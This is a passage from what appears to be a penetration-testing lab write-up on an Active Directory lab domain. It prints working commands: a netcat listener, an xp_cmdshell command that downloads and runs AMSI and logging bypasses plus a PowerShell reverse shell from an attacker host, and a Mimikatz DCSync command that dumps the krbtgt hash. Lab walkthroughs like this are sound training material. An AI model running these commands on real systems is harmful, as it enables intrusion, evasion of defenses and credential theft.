 - We can then attempt to spawn a reverse shell on `DBSERVER31`, Make sure you have `netcat` running first

```
C:\AD\Tools\nc64.exe -lvnp 443
```

![](https://i.imgur.com/IDz4yMR.png)

- Make sure to start **HFS** or any hosting services and upload the file `sbloggingbypass.txt`, `amsibypass.txt` and `Invoke-PowerShellTcpEx.ps1` in other to host them, then run the command below

```
Get-SQLServerLinkCrawl -Instance DBSERVER31 -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://172.16.100.1/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://172.16.100.1/amsibypass.txt);iex (iwr -UseBasicParsing http://172.16.100.1/Invoke-PowerShellTcpEx.ps1)"'''
```

> This type of command is indicative of an attempt to execute code on a SQL Server instance through the use of extended stored procedures, i should now have a reverse shell as `dbserver31`

![](https://i.imgur.com/uOpH7nj.png)

# **04 - tech-dc.tech.finance.corp**

***
## ***System Information***
***

Hostname: **TECH-DC**

IP Address: **172.16.4.1**

***
## **Steps to Compromise**
***

- After proper enumeration with `bloodhound` i found out The user `SQLSERVERSYNC@TECH.FINANCE.CORP` has the DS-Replication-Get-Changes and the DS-Replication-Get-Changes-All privilege on the domain `TECH.FINANCE.CORP`.These two privileges allow a principal to perform a **DCSync** attack.

![](https://i.imgur.com/OamO2IX.png)

> A DCsync attack is a technique used by attackers to simulate the behavior of a Domain Controller (DC) and request domain account password data from other domain controllers in the network. This attack takes advantage of the way Active Directory replicates information between domain controllers. 

- Transfer `Invoke-Mimikatz.ps1` to `dbserver31` to perform a DCsync attack to retrieve the NTLM hash of the KRBTGT account

```
. .\Invoke-Mimikatz.ps1
Invoke-Mimikatz -Command '"lsadump::dcsync /user:tech\krbtgt"'
```
